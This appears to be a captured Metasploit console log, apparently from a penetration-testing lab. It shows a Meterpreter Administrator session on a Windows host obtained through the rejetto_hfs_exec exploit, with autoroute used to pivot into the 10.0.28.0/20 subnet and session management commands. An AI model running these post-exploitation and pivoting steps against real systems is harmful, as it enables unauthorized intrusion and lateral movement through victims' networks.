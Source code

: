 ```
meterpreter > run autoroute -h

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Usage:   run autoroute [-r] -s subnet -n netmask
[*] Examples:
[*]   run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0
[*]   run autoroute -s 10.10.10.1                 # Netmask defaults to 255.255.255.0
[*]   run autoroute -s 10.10.10.1/24              # CIDR notation is also okay
[*]   run autoroute -p                            # Print active routing table
[*]   run autoroute -d -s 10.10.10.1              # Deletes the 10.10.10.1/255.255.255.0 route
[*] Use the "route" and "ipconfig" Meterpreter commands to learn about available routes
[-] Deprecation warning: This script has been replaced by the post/multi/manage/autoroute module
meterpreter > run autoroute -s 10.0.28.0/20

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 10.0.28.0/255.255.240.0...
[+] Added route to 10.0.28.0/255.255.240.0 via 10.0.28.68
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   10.0.28.0          255.255.240.0      Session 1

```

```
meterpreter > 
Background session 1? [y/N]  
msf6 exploit(windows/http/rejetto_hfs_exec) > sessions

Active sessions
===============

  Id  Name  Type                     Information                                      Connection
  --  ----  ----                     -----------                                      ----------
  1         meterpreter x86/windows  WIN-OMCNBKR66MN\Administrator @ WIN-OMCNBKR66MN  10.10.16.3:4444 -> 10.0.28.68:49220 (10.0.28.68)

msf6 exploit(windows/http/rejetto_hfs_exec) > sessions -h
Usage: sessions [options] or sessions [id]

Active session manipulation and interaction.

OPTIONS:

    -C <opt>  Run a Meterpreter Command on the session given with -i, or all
    -K        Terminate all sessions
    -S <opt>  Row search filter.
    -c <opt>  Run a command on the session given with -i, or all
    -d        List all inactive sessions
    -h        Help banner
    -i <opt>  Interact with the supplied session ID
    -k <opt>  Terminate sessions by session ID and/or range
    -l        List all active sessions
    -n <opt>  Name or rename a session by ID
```
